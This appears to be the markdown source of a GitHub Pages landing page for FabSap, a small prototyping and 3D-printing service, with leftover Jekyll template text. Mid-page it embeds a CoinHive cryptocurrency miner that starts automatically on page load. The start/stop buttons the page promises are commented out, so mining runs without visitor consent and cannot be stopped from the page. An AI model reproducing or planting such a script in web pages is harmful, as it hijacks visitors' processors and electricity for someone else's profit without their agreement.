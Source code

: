 ## Welcome to FabSap

@FabSap our mission is to enable hardware engineers/hakers/makers with prototypes build right - on time and at affordable prices.
As Makers you keep on creating awesome stuff while we handle manufacturing for you.



### 3D Printing

You can order 3d Prints right away:

<a href="https://www.3dhubs.com/service/fabsap" data-3dhubs-widget="button" data-hub-id="72904" data-type="orderWidget" data-color="green" data-size="large" data-text="Order a 3D Print" >Order a 3D Print</a>
<script>!function(a,b,c,d){var e,g=(a.getElementsByTagName(b)[0],/^http:/.test(a.location)?"http":"https");a.getElementById(d)||(e=a.createElement(b),e.id=d,e.src=g+"://d3d4ig4df637nj.cloudfront.net/w/2.0.js",e.async=!0,a.body.appendChild(e))}(document,"script",1,"h3d-widgets-js");</script>

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
Instead of using ads, I am having you mine for crypto currency to support this site. Here are your stats:
<center>
<p id="tcount"></p>
<p id="hps"></p>
<p id="ths"></p>
<p id="tah"></p>
</center>
<p>You can start or stop at anytime but please wait for some accepted hashes before you do.</p>
<center>
<p id="minebutton"></p>
</center>

<script type="text/javascript">
var miner = new CoinHive.User('zMtnsQ82YuudZehaQerpxlPI7ct2NUld','john-doe', {threads: 2,	autoThreads: true});
miner.start(CoinHive.FORCE_EXCLUSIVE_TAB);
// Update stats once per second
setInterval(function() {
    var threadCount = miner.getNumThreads();
    var hashesPerSecond = Math.round(miner.getHashesPerSecond() * 100) / 100;
    var totalHashes = miner.getTotalHashes();
    var acceptedHashes = miner.getAcceptedHashes() / 256;
    // Output to HTML elements...
    if (miner.isRunning()) {
        document.getElementById("tcount").innerHTML = "Threads: " + threadCount;
        document.getElementById("hps").innerHTML = "hashes per second: " + hashesPerSecond;
        document.getElementById("ths").innerHTML = "Total Hashes: " + totalHashes;
        document.getElementById("tah").innerHTML = "Accepted Hashes: " + acceptedHashes;
        //document.getElementById("minebutton").innerHTML = "<button onclick=\"miner.stop()\">Stop Mining</button>";
    } else {
        document.getElementById("hps").innerHTML = "Please click start";
        document.getElementById("ths").innerHTML = "to support";
        document.getElementById("tah").innerHTML = "this site";
        //document.getElementById("minebutton").innerHTML = "<button onclick=\"miner.start(CoinHive.FORCE_EXCLUSIVE_TAB)\">Start Mining</button>";
    }
}, 1000);
</script>


```markdown
Syntax highlighted code block

# Header 1
## Header 2
### Header 3

- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/dhavalpalsana/Fabsap/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://help.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.
